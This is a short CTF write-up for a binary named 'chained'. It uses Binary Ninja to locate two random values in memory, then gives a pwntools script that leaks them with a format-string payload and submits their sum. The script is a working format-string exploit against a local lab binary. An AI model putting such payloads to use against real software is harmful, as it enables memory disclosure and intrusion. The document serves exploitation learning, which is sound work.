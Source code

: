 # [chained](https://github.com/ace-lii/ctf_writeups/blob/main/code/format_strings/chained)

* Open ***Binary Ninja*** as usual. Examine the main function to understand the logic. It generates two random numbers below 1000, sums them, and compares the result with the input.
![](https://github.com/ace-lii/ctf_writeups/blob/main/img/chained1.png?raw=true)


* Determine where these two random numbers are stored in memory using Binary Ninja.

![](https://github.com/ace-lii/ctf_writeups/blob/main/img/chained3.png?raw=true)

* Calculate the sum as you obtain values from the "random1/2" addresses. Use ***pwntools*** to play around with the chained.

```
from pwn import *

rdn1 = 0x0804a080
rdn2 = 0x0804a088

i = 13 # why 13 can use similar bash used in task2
sum = 0
p = process("./chained")
name = p32(rdn1) + p32(rdn2) + b" %" + str(i).encode() + b"$s " + b" %" + str(i + 1).encode() + b"$s"

print("\n\n--------------index is {} name is {}".format(i, name))

try:
    while True:
        prompt = p.recvline()
        print("\nprompt {}".format(prompt))

        if b"What is your name?" in prompt:
            p.sendline(name)
            try:
                prompt = p.recvline().strip(b"\x80\xa0\x04\x08\x88\xa0\x04\x08").strip()
                rdn1_val = int(prompt.split(b" ")[0])
                rdn2_val = int(prompt.split(b" ")[2])
                sum = rdn1_val + rdn2_val
                print("sum = {} r1 = {} r2 ={}".format(sum, rdn1_val, rdn2_val))
            except:
                pass
        elif b"Im thinking" in prompt:
            p.sendline(str(sum).encode())
            print(p.recvall())
            break
        elif b"totally wrong" in prompt:
            print("Reached the end of interaction")
        else:
            continue

except EOFError:
    print("EOFError: Process exited unexpectedly")

p.close()
```


![](https://github.com/ace-lii/ctf_writeups/blob/main/img/chained2.png?raw=true)

 

 
